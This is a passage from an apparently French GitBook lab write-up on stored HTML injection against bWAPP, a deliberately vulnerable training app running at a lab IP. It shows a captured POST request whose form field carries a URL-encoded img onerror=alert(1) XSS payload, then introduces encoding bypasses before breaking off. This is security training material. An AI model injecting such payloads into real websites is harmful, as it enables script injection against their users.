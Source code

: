 ![](<../../../../../.gitbook/assets/image (20) (1) (2).png>)

Par des attributs HTML :&#x20;

```http
POST /bWAPP/htmli_stored.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 69
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_stored.php
Cookie: PHPSESSID=dd072f586873ddbc6e0a10ae3229b270; security_level=1
Connection: close

entry=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&blog=submit&entry_add=
```

![](<../../../../../.gitbook/assets/image (29) (1).png>)

Par quelques contournements comme de l'encodage URL :&#x20;
